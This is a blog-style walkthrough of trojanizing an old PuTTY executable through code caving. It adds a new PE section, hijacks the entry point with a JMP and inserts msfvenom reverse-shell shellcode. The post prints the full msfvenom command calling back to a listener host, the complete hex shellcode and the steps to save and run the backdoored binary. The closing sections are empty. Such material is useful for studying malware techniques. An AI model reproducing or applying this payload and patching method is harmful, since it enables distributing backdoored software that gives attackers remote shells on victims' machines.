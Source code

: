 ```yaml
---
layout: single
title: Code caving & backdooring Windows PE files
---
```


Code caving is a technique deployed by threat actors to run malicious shellcode within the valid PE space of a regular program. It's a technique where an actor discovered a un-used or non-optimized part of code within a compiled program that they can use via hijacking the execution flow to point to this location that has shellcode allocated in it. Which can lead to the application executing a malicious shellcode payload.

### Thanks Wikipedia
> A code cave is a series of null bytes in a process's memory. The code cave inside a process's memory is often a reference to a section of the code's script functions that have the capacity for the injection of custom instructions. For example, if a script's memory allows for five bytes and only three bytes are used, then the remaining two bytes can be used to add additional code to cript without making significant changes. 

---

This walkthrough will be utilizing an older version of Putty, Putty v0.66, which can be downloaded from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/releases/0.66.html).

----

**Our exploitation & backdooring workflow**

Our workflow is as follows. 

1. We add another section to the binary and fill it up with empty space, also give it the name of our choosing.
2. Find the entry point for the binary
3. Find the address of your newly created section in the binary
4. Write your msfvenom shellcode payload to the empty created section
5. Re-write the empty point as a JMP to the malicious section.
6. Have the shellcode return execution back to the normal flow
6. Patch and save the binary

----

**Binary section analysis & creation**

We can start by opening up putty.exe within CFF Explorer to view the PE data. CFF Explorer will give us plenty of details about the binary, the important part is the sections tab. This technique is to add a malicious section to the binary. 

![code caving 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_1.png)

Open up the section headers tab and we need to add a new header, this header will be utilized for malicious purposes. Go to `Section Headers [x]` > Right-click and select `Add Section (Empty Space)`, and adjust the size of the section to 1000 spaces. Then name your new section header. I will be naming it `.shell`. Adding these spaces will allow the program to be sen as a legitimate application instead of just throwing you an error and crashing if you don't have data. This blank data will also be utilized soon.

![code caving 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_2.png)

----

**Debugging the application**

Now we can open up our new binary in Immunity Debugger. If you run the application it will show "Program entry point" on the bottom left of Immunity, this is what we want to hijack to point to our soon to be malicious `.shell` segment.

![code caving 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_3.png)

From here you copy the `.shell` section headers address and edit the Program entry point to a `JMP <SECTION ADDRESS>`. 

![code caving 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_4.png)

![code caving 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_5.png)

Now you can press `F7` and step into the newly edited JMP call, this will lead to the new section we created.

![code caving 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_6.png)

Now you also want to edit the new section in Immunity and add a `PUSHFD` to the start of your malicious new section. Assemble it when done.

----

**Malicious payload creation**

Now you can generate your msfvenom payload, use a `EXITFUNC=seh` to ensure it handles proper exiting to add to the stability and reliability of your shell. Generate it in hex format since it's going to be directly pasted into the binary/machine code.

```
└─▪ ./msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.81 LPORT=9999 -f hex EXITFUNC=seh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b5
92001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b6159
5a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976
a05680a000051680200270f89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089e357575731f66a125956e2fd66c74424
3c01018d442410c60044545056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbfe0e32ea68a695bd9dffd53c067c0a80fbe07
505bb4713726f6a0053ffd5
```
You you can now copy past this into Immunity Debugger into your new malicious section.

![code caving 7](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_7.png)

----

**Obtain a shell**

You can run it within Immunity, but if you want to export the now backdoored file, you just need to save the patched file and run it to obtain that sweet reverse shell.

![code caving 8](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_8.png)

----

**Binary diffing with IDA Pro**

Let's compare the execution flow of the original application vs. the newly patched & malicious binary. We can utilize IDA Pro for binary diffing.


----

**Conclusion**
